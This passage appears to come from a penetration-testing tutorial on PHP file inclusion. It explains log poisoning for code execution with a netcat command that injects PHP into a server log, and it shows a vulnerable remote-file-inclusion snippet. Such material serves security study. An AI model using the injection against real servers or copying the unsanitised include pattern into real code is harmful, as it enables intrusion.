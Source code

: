 The `include()` function will assume the included file contains PHP and tries to interpret it, so the uploaded file does not neccessarily need to have the `.php` file extension. 

If there are upload restrictions, then see the [Upload Filters section](#upload-filters), especially the link at the bottom.


#### LFI RCE Through Poisoning

**Log Poisoning** is the most well known poisoning attack. 

Basically you inject PHP code into a server log file by crafting a special request that will cause an error or log-worthy event. Afterwards you include the log file via LFI and the code snippet in there gets executed.

Let's assume we can include the log file of the target server: `/var/log/vulnserver/access.log`

When we include that file we might see a print-out like this: 

```default
10.0.13.37 - - [08/Mar/2021 22:52:03] code 404, message File not found - 
127.0.0.1 - - [08/Mar/2021 23:09:00] "GET /admin.html HTTP/1.1" 404 -
10.0.13.37 - - [08/Mar/2021 23:09:17] "GET /test.html HTTP/1.1" 200 -
10.0.13.37 - - [08/Mar/2021 23:09:17] "GET /index.html HTTP/1.1" 200 -
```

Now it's usually rather easy to inject some PHP in there.

Just send the following with netcat:

```bash
$ nc vulnserver.example 80
GET <?php phpinfo() ?>
# [press enter]
```

This might show up in the target server log file like this:

```default
...
10.0.13.37 - - [08/Mar/2021 23:13:10] code 400, message Bad request version ('?>')
10.0.13.37 - - [08/Mar/2021 23:13:10] "GET <?php phpinfo() ?>" 400 -
```

If we include that log file via LFI again, then the PHP we have injected will get interpreted and we will see the `phpinfo()` display, which confirms that we have gained code execution.

It's not just log files you can poison. Some services store data as files, like SQLite. If you can create a string in that database, then you might also be able to inject some PHP code into the database storage file. You have to get a bit creative with these poisoning attacks.


### Remote File Inclusion

Here is an example for vulnerable code that allows a **Remote File Inclusion (RFI)**:

```php
$filepath = $_GET["path"];
include($filepath . "/example.php");
```

